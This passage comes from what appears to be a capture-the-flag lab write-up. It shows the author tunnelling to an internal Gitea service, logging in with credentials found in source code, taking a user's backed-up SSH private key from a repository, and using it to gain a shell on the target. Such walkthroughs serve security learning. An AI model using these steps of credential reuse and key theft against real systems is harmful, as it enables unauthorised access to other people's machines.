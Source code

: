 This command connected to the server on port 3477 in my machine. And opened a reverse proxy. Any TCP traffic on port 2222 on my machine would go to the tunnel and be forwarded to port 3000 on the host machine at 172.17.0.1.

I opened `http://localhost:2222/` in my browser and it reached Gitea.

![Gitea](/assets/images/2022/10/OpenSource/Gitea.png "Gitea")

I used the credentials I found in the source code to log in the site. There was one repository called `dev01/home-backup` and it contained a backup of dev01's SSH private key. I saved the copy on my machine and used it to connect to the server. 

```bash
$ chmod 600 dev01_id_rsa

$ ssh -i dev01_id_rsa dev01@target 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-176-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun  5 11:37:52 UTC 2022

  System load:  0.02              Processes:              217
  Usage of /:   75.0% of 3.48GB   Users logged in:        0
  Memory usage: 21%               IP address for eth0:    10.129.101.0
  Swap usage:   0%                IP address for docker0: 172.17.0.1


16 updates can be applied immediately.
9 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Mon May 16 13:13:33 2022 from 10.10.14.23

```
